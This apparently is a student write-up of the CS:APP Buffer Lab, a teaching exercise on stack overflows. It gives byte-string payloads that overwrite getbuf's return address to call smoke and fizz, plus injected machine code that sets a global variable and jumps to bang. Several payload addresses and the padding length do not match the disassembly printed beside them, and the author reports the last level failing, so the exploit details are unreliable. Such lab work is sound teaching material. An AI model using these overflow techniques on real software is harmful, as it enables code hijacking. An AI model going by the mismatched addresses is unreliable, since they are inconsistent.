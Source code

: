 # CS:APP Buffer Lab

### 0. Preface

```c
void test() 
{
	int val;
	/* Put canary on stack to detect possible corruption */ 
	volatile int local = uniqueval();
	
	val = getbuf();
	
	/* Check for corrupted stack */ 
	if (local != uniqueval()) {
		printf("Sabotaged!: the stack has been corrupted\n"); 
	}
    else if (val == cookie) {
		printf("Boom!: getbuf returned 0x%x\n", val); 
		validate(3);
	} 
	else {
		printf("Dud: getbuf returned 0x%x\n", val);
    }
}
```

```
080491f4 <getbuf>:
 80491f4:	55                   	push   %ebp
 80491f5:	89 e5                	mov    %esp,%ebp
 80491f7:	83 ec 38             	sub    $0x38,%esp
 80491fa:	8d 45 d8             	lea    -0x28(%ebp),%eax
 80491fd:	89 04 24             	mov    %eax,(%esp)
 8049200:	e8 f5 fa ff ff       	call   8048cfa <Gets>
 8049205:	b8 01 00 00 00       	mov    $0x1,%eax
 804920a:	c9                   	leave  
 804920b:	c3                   	ret    
```

```
// Stack Frame

.bottom (high address)
+ - - - - - - - - - - + ----
|                     | previous frame
|         ...         |
|                     |
| - - - - - - - - - - | ----
|         ...         | caller's frame
| - - - - - - - - - - |
| 	   argument n     |
| - - - - - - - - - - |
|         ...         |
| - - - - - - - - - - |
|      argument 7     |
| - - - - - - - - - - |
|    return address   |
| - - - - - - - - - - | ----
|        %rbp         | callee's frame (current)
| - - - - - - - - - - |
|   saved registers   |
| - - - - - - - - - - |
| 	    local n       |
| - - - - - - - - - - |
|         ...         |
| - - - - - - - - - - |
|       local 1       |
| - - - - - - - - - - |
| 	   argument n     |
| - - - - - - - - - - |
|         ...         |
| - - - - - - - - - - |
|      argument 7     |
+ - - - - - - - - - - + <- %rsp
.top (low address)
```



### 1. Candle

Goal: Before `getbuf()` returns, call `smoke()` instead of returning `test()`.

```c
void smoke()
{
    printf("Smoke!: You called smoke()\n");
    validate(0);
    exit(0);
}
```

```
08048e20 <smoke>:
 8048e20:	55                   	push   %ebp
 8048e21:	89 e5                	mov    %esp,%ebp
 8048e23:	83 ec 08             	sub    $0x8,%esp
 8048e26:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 8048e2d:	e8 6e fb ff ff       	call   80489a0 <entry_check>
 8048e32:	c7 04 24 47 9a 04 08 	movl   $0x8049a47,(%esp)
 8048e39:	e8 d6 f8 ff ff       	call   8048714 <puts@plt>
 8048e3e:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 8048e45:	e8 96 fc ff ff       	call   8048ae0 <validate>
 8048e4a:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 8048e51:	e8 4e f9 ff ff       	call   80487a4 <exit@plt>
 8048e56:	8d 76 00             	lea    0x0(%esi),%esi
 8048e59:	8d bc 27 00 00 00 00 	lea    0x0(%edi,%eiz,1),%edi
```

According to `0x80491fa` in `getbuf()`, we can learn that the length of the buffer in stack is `0x28`. Through the structure of stack frame, we can input excess words to buffer to overwrite the stack pointer and return address of `getbuf()`. So we can fill previous `0x28` bytes with any digits, then add extra address of `smook()` entrance, which is `18 8c 04 08`(little endian).

```
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 18 8c 04 08
```

Then, convert these bytes to characters using `hex2raw` and send them to buffer.

```
Type string:Smoke!: You called smoke()
VALID
NICE JOB!
```



### 2. Sparkler

Goal: Before `getbuf()` returns, call `fizz()` instead of returning `test()`, and pass the cookie as its argument.

```c
void fizz(int val)
{
    if (val == cookie) {
        printf("Fizz!: You called fizz(0x%x)\n", val);
        validate(1);
    } else
        printf("Misfire: You called fizz(0x%x)\n", val);
    exit(0);
}
```

```
08048dc0 <fizz>:
 8048dc0:	55                   	push   %ebp
 8048dc1:	89 e5                	mov    %esp,%ebp
 8048dc3:	53                   	push   %ebx
 8048dc4:	83 ec 14             	sub    $0x14,%esp
 8048dc7:	8b 5d 08             	mov    0x8(%ebp),%ebx
 8048dca:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
 8048dd1:	e8 ca fb ff ff       	call   80489a0 <entry_check>
 8048dd6:	3b 1d cc a1 04 08    	cmp    0x804a1cc,%ebx
 8048ddc:	74 22                	je     8048e00 <fizz+0x40>
 8048dde:	89 5c 24 04          	mov    %ebx,0x4(%esp)
 8048de2:	c7 04 24 98 98 04 08 	movl   $0x8049898,(%esp)
 8048de9:	e8 76 f9 ff ff       	call   8048764 <printf@plt>
 8048dee:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 8048df5:	e8 aa f9 ff ff       	call   80487a4 <exit@plt>
 8048dfa:	8d b6 00 00 00 00    	lea    0x0(%esi),%esi
 8048e00:	89 5c 24 04          	mov    %ebx,0x4(%esp)
 8048e04:	c7 04 24 29 9a 04 08 	movl   $0x8049a29,(%esp)
 8048e0b:	e8 54 f9 ff ff       	call   8048764 <printf@plt>
 8048e10:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
 8048e17:	e8 c4 fc ff ff       	call   8048ae0 <validate>
 8048e1c:	eb d0                	jmp    8048dee <fizz+0x2e>
 8048e1e:	89 f6                	mov    %esi,%esi
```

Generally, the argument will be stored in `0x8(%ebp)`, so we can put additional bytes as argument after return address.

```
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 42 8c 04 08 00 00 00 00 45 32 2a 1c
```

Note that `42 8c 04 08` is the address of `fizz()`, and the `45 32 2a 1c` is the cookie. Both of them are represented in little endian.

```
Type string:Fizz!: You called fizz(0x1c2a3245)
VALID
NICE JOB!
```



### 3. Firecracker

Goal: Before `getbuf()` returns, call `bang()` instead of returning `test()`, and change the global variable to the cookie.

```c
int global_value = 0;

void bang(int val)
{
    if (global_value == cookie) {
    	printf("Bang!: You set global_value to 0x%x\n", global_value);
    	validate(2);
    } else
    	printf("Misfire: global_value = 0x%x\n", global_value);
    exit(0);
}
```

```
08048d60 <bang>:
 8048d60:	55                   	push   %ebp
 8048d61:	89 e5                	mov    %esp,%ebp
 8048d63:	83 ec 08             	sub    $0x8,%esp
 8048d66:	c7 04 24 02 00 00 00 	movl   $0x2,(%esp)
 8048d6d:	e8 2e fc ff ff       	call   80489a0 <entry_check>
 8048d72:	a1 dc a1 04 08       	mov    0x804a1dc,%eax
 8048d77:	3b 05 cc a1 04 08    	cmp    0x804a1cc,%eax
 8048d7d:	74 21                	je     8048da0 <bang+0x40>
 8048d7f:	89 44 24 04          	mov    %eax,0x4(%esp)
 8048d83:	c7 04 24 0b 9a 04 08 	movl   $0x8049a0b,(%esp)
 8048d8a:	e8 d5 f9 ff ff       	call   8048764 <printf@plt>
 8048d8f:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 8048d96:	e8 09 fa ff ff       	call   80487a4 <exit@plt>
 8048d9b:	90                   	nop
 8048d9c:	8d 74 26 00          	lea    0x0(%esi,%eiz,1),%esi
 8048da0:	89 44 24 04          	mov    %eax,0x4(%esp)
 8048da4:	c7 04 24 70 98 04 08 	movl   $0x8049870,(%esp)
 8048dab:	e8 b4 f9 ff ff       	call   8048764 <printf@plt>
 8048db0:	c7 04 24 02 00 00 00 	movl   $0x2,(%esp)
 8048db7:	e8 24 fd ff ff       	call   8048ae0 <validate>
 8048dbc:	eb d1                	jmp    8048d8f <bang+0x2f>
 8048dbe:	89 f6                	mov    %esi,%esi
```

We can't change the code in `test()` or `bang()`, what we can do to change the global value? The answer is the buffer, we can inject code into the buffer. 

We can get the address of `global_value` through disassembly code, it is `0x0804d100`. By setting break point in `getbuf()`, we can get the buffer address.

```
(gdb) p/x ($ebp-0x28)
$1 = 0x55683be8
```

The code we are going to inject into buffer does two main things, change global value and change return address to `bang()`.

```
00000000 <.text>:
   0:	c7 05 00 d1 04 08 45 	movl   $0x1c2a3245,0x804d100
   7:	32 2a 1c 
   a:	68 60 8d 04 08       	push   $0x8048d60
   f:	c3                   	ret  
```

The code is 16 bytes large, will not destroy the structure of stack frame. The input bytes are shown below.

```
c7 05 00 d1 04 08 45 32 2a 1c 68 60 8d 04 08 c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 e8 3b 68 55
```

Note that the program need to be executed in `gdb` with `execstack`. It should be

```
Type string:Bang!: You set global_value to 0x1c2a3245
VALID
NICE JOB!
```

But, I bumped this problem while using `execstack` and couldn't solve it. 

```
> execstack -s bufbomb
execstack: bufbomb: section file offsets not monotonically increasing.
```

